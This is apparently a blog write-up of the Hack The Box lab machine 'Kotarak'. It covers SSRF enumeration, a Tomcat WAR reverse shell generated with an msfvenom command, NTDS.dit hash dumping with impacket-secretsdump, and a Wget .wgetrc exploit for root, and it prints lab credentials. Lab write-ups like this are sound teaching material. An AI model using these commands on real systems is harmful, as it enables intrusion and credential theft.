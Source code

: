 ```yaml
---
title: "Hack The Box - Kotarak"
tags: [linux,hard,ssrf,tomcat,ntds.dit,ntlm,secretsdump,wget,cronjob]
categories: HackTheBox-Linux
---
```



![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/title.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/title.png)

## *NMAP*
This Machine is the Hard level machine so i will prefer the Full Port Scan :- 

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/nmap.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/nmap.png)


## *Enumerating [ SSRF ]*

-> So on port 8080 we have our Tomcat running . On port 60000 we have an webpage that sends an GET request on the url provided :

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/Untitled%203.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/Untitled%203.png)

-> If we try to read /etc/passwd the The word **`file`** is filtered which stops us from reading local files. Although we are able to use [localhost](http://localhost) and access this and the tomcat page :

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/burp.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/burp.png)

=> Scanning Ports on [localhost](http://localhost) using wfuzz 

**`wfuzz -c -z range,1-65535 --hl=2 http://10.10.10.55:60000/url.php?path=http://localhost:FUZZ`**
![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/wfuzz.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/wfuzz.png)

→ [localhost:888](http://localhost:888) has interesting things :

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/back.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/back.png)

→ Taking a look at **backup** option.

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/se.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/se.png)

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/cred.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/cred.png)

We got credentials for tomcat

```
admin : 3@g01PdhB!
```

⇒ Logged in on tomcat manager page. Uploaded a WAR msfvenom shell and popped a shell :

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.56.101 LPORT=4444 -f war > shell.war
```
![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/tommm.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/tommm.png)

*Starting out netcat 

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/image.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/image.png)

---

### *Privilege Escalation [ tomcat to atanas ]*

⇒ In /home/tomcat/to_archive/pentest_data  folder we find 2 interesting files which looks like one of them is ntds.dit and the other is system registry file :

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/pwd.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/pwd.png)

Lets run [secretsdump.py](http://secretsdump.py) [ a tool from impacket ] to retrieve ntlm hashes

```bash
impacket-secretsdump -ntds 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit -system  20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin LOCAL
```  

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/hash.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/hash.png)

→ Cracking the NTLM hash

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/crack.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/crack.png)

→ The credentials work and we are able to switch to user atanas : 

**`atanas : f16tomcat!`**

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/su.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/su.png)

### *Privilege Escalation to Root*

⇒ We are able to read and write files in root directory. We find the following :

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/root1.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/root1.png)

→ Looks like there's another docker container  machine on the network with the ip [ 10.0.3.133 ] which is running an wget cron to our http server. We can also see the version of Wget being used  ( Wget/1.16 ). There's an exploit for this version of wget being used

Exploit : [https://www.exploit-db.com/exploits/40064](https://www.exploit-db.com/exploits/40064)

```bash
GNU Wget before 1.18 when supplied with a malicious URL (to a malicious or 
compromised web server) can be tricked into saving an arbitrary remote file 
supplied by an attacker, with arbitrary contents and filename under 
the current directory and possibly other directories by writing to .wgetrc.
Depending on the context in which wget is used, this can lead to remote code 
execution and even root privilege escalation if wget is run via a root cronjob 
as is often the case in many web application deployments.
```

⇒ So in this exploit we will create a 301x redirect , when the user machine  try to access that wget archive  file it will redirected to ftp server and that ftp server will be running  on our own attacker machine and it will serve a malicious file which will give us root access 

→ Creating malicious .wgetrc File on our Own machine  that we will be serving :

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/root2.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/root2.png)


=> Run pythonftp server on attacker machine , our own machine 

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/python.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/python.png)

First we need to Edit our exploit and then transfer it into our victim machine  it on the system Using python http server on attcker  and wget on victim  :

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/root4.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/root4.png)

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/wget.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/wget.png)

=> Start Nc Listener 

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/nc%20lis.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/nc%20lis.png)

=> Runing exploit.py on Victim server but it doesn't allow us to do so. There is authbind on the system which allows a program which does not or should not run as root to bind to low-numbered ports in a controlled way

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/auth%20python.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/auth%20python.png)

=> After Waiting for Few Minutes it will give us a shell ( be patience  it will take time ) 

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/sad.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/sad.png)









